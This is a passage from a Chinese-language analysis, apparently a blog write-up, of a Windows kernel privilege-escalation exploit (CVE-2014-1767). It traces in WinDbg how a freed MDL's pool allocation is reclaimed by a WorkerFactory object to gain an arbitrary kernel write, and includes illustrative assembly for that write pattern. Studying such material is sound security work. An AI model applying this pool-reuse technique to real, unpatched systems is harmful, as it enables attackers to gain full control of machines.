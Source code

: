 ```
kd> 
eax=000000a0 ebx=00000001 ecx=00000888 edx=00000000 esi=880a7ca0 edi=18888888
eip=83ea559f esp=9f52da08 ebp=9f52da2c iopl=0         nv up ei pl nz na po nc
cs=0008  ss=0010  ds=0023  es=0023  fs=0030  gs=0000             efl=00000202
nt!IoAllocateMdl+0xaa:
83ea559f e861ba0800      call    nt!ExAllocatePoolWithTag (83f31005)
kd> dds esp
9f52da08  00000000
9f52da0c  000000a0
9f52da10  206c644d
kd>                                   //记住MDL地址
eax=87f80060 ebx=00000001 ecx=00042238 edx=00000ac3 esi=880a7ca0 edi=18888888
eip=83ea55a4 esp=9f52da14 ebp=9f52da2c iopl=0         nv up ei pl zr na pe nc
cs=0008  ss=0010  ds=0023  es=0023  fs=0030  gs=0000             efl=00000246
nt!IoAllocateMdl+0xaf:
83ea55a4 85c0            test    eax,eax
```

### Step 2
EXP中这个unlucky_obj对象选择了WorkerFactory，之所以这样做是因为unlucky_obj必须具有写内存的能力，也就是对象具有NtSet*这样的函数，而且如果想要在任意地址写数据，该函数需要有形如下面的指令：

```
mov ecx, [ebp + object]    //获得unlucky_obj指针
mov edx, [ebp + data]      //获得参数

mov eax, [ecx + 0x10]      //在偏移0x10取得一个可控的用户态地址
mov ebx, [eax + 0x20]      //从用户态地址偏移0x20获得目标地址
mov [ebx + 0x30], edx      //任意地址写任意数据
```

看来WorkerFactory符合上述条件，ntdll!ZwCreateWorkerFactory在内核中会调用nt!NtCreateWorkerFactory，随后调用

![图片4](https://turingsec.github.io/knowledge/posts/windows_eop_cve-2014-1767/图片4.png)

看雪上有一篇专门介绍[ObCreateObject](http://www.pediy.com/kssd/pediy11/114730/820460/44304.pdf)的文章，个人觉得写的不错，毕竟是内核频繁使用的函数，收藏起来回头深入研究。进入ObCreateObject，来到了nt!ObpAllocateObject：

```
kd> kb
ChildEBP RetAddr  Args to Child              
9f52db60 84036329 0021f901 9f52db88 00000078 nt!ObpAllocateObject+0xdd
9f52db94 8402207b 0021f901 865f3730 00000000 nt!ObCreateObject+0x128
9f52dc04 83e4e1ea 01b16af8 10000000 00000000 nt!NtCreateWorkerFactory+0x142
9f52dc04 777e70b4 01b16af8 10000000 00000000 nt!KiFastCallEntry+0x12a
kd> r;dds esp
eax=ef577054 ebx=00000000 ecx=000000a0 edx=00000000 esi=865f3730 edi=87f73860
eip=840364ba esp=9f52db3c ebp=9f52db60 iopl=0         nv up ei ng nz na po nc
cs=0008  ss=0010  ds=0023  es=0023  fs=0030  gs=0000             efl=00000282
nt!ObpAllocateObject+0xdd:
840364ba e846abefff      call    nt!ExAllocatePoolWithTag (83f31005)
9f52db3c  00000000
9f52db40  000000a0            //和MDL一样大小
9f52db44  ef577054
kd> p                      //返回和之前MDL一样的地址
eax=87f80060 ebx=00000000 ecx=00003678 edx=00000086 esi=865f3730 edi=87f73860
eip=840364bf esp=9f52db48 ebp=9f52db60 iopl=0         nv up ei pl zr na pe nc
cs=0008  ss=0010  ds=0023  es=0023  fs=0030  gs=0000             efl=00000246
nt!ObpAllocateObject+0xe2:
840364bf 33d2            xor     edx,edx
kd> dd eax
87f80060  00000000 000000a0 00000000 00760065
87f80070  18888000 00020000 00000888 ffffffff
87f80080  00690064 006b0073 006f0056 0075006c
87f80090  0065006d 005c0031 00720050 0067006f
```